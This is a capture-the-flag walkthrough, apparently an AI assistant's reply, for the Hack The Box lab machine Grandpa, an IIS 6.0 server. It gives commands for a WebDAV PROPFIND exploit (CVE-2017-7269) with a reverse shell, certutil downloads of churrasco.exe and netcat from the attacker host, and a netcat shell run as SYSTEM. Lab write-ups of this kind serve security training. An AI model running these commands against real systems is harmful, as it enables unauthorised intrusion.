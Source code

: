 Absolutely! Here's the updated **HTB: Grandpa** walkthrough with `[HTTP](HTTP)` references properly included 👇

---

# 🧓 HTB: Grandpa Walkthrough

**Machine Info:**
- **IP**: `10.10.10.14`
- **OS**: Windows Server 2003 R2 SP2 (IIS 6.0)
- **Difficulty**: Easy
- **Exploits Used**:
  - [HTTP](HTTP) – WebDAV Support
  - **CVE-2017-7269** – [HTTP](HTTP) PROPFIND Buffer Overflow (RCE)
  - **CVE-2009-0078** – Local PrivEsc with `Churrasco.exe`

---

## 🧭 Recon

### 🔍 Nmap Scan
```bash
nmap -sV -sC -oA scan/result 10.10.10.14
```

**Result:**
```
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD COPY MOVE PROPFIND SEARCH LOCK UNLOCK
|_  Potentially risky methods: TRACE COPY MOVE PROPFIND SEARCH LOCK UNLOCK
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
```

IIS 6.0 with [HTTP](HTTP) **WebDAV** extensions is exposed — great target for known RCEs.

---

## 🔎 WebDAV Test – [HTTP](HTTP)

### 🌐 Test with `davtest`
```bash
davtest -url http://10.10.10.14
```

**Result:**  
No upload capability, but [HTTP](HTTP) verbs like `PROPFIND`, `SEARCH`, and `LOCK` are enabled.

---

## 🧨 Initial Foothold – CVE-2017-7269 (PROPFIND RCE)

### 🛠️ Clone Exploit
```bash
git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269.git
cd iis6-exploit-2017-CVE-2017-7269
```

### ✏️ Rename if needed
```bash
mv iis6 reverse.py
```

### 📡 Set Up Listener
```bash
rlwrap nc -lnvp 4444
```

### 🚀 Launch Exploit (Over [HTTP](HTTP))
```bash
python2 reverse.py 10.10.10.14 80 10.10.14.10 4444
```

### 💥 Shell Received
```cmd
whoami
nt authority\network service
```

### 🧾 Grab User Flag
```cmd
type "C:\Documents and Settings\NetworkService\Desktop\user.txt"
```

---

## 🧱 Privilege Escalation – SYSTEM

### 📄 System Info
```cmd
systeminfo > info.txt
```

### 🔍 Find Privesc with `wes.py`
```bash
./wes.py info.txt
```

### 🎯 Vulnerability Found: **CVE-2009-0078**
- Exploits `SeImpersonatePrivilege`
- Works perfectly on this unpatched 2003 box

---

## 🚒 SYSTEM Shell via Churrasco

### 🧷 Download Churrasco
```bash
wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
```

### 📦 Transfer Payload & Listener
```bash
# On Attacker
updog -p 80

# On Victim
certutil -urlcache -split -f http://10.10.14.10/churrasco.exe churrasco.exe
certutil -urlcache -split -f http://10.10.14.10/nc.exe nc.exe
```

### 🛰️ Setup Second Listener
```bash
rlwrap nc -lnvp 5555
```

### 🚀 Execute SYSTEM Shell via Churrasco
```cmd
churrasco.exe -d "nc.exe 10.10.14.10 5555 -e cmd.exe"
```

### ✅ SYSTEM Confirmed
```cmd
whoami
nt authority\system
```

---

## 🏁 Grab Root Flag
```cmd
type "C:\Documents and Settings\Administrator\Desktop\root.txt"
```

---

## ✅ Summary

| Phase | Details |
|-------|---------|
| **Recon** | Found IIS 6.0 [HTTP](HTTP) server with WebDAV support |
| **Initial Access** | CVE-2017-7269 – Exploited PROPFIND via [HTTP](HTTP) for RCE |
| **Privesc** | CVE-2009-0078 – Used Churrasco to escalate to SYSTEM |
| **Flags** | Retrieved `user.txt` and `root.txt` |

---

Let me know if you'd like a `.md` version or one formatted for a report 📄✨
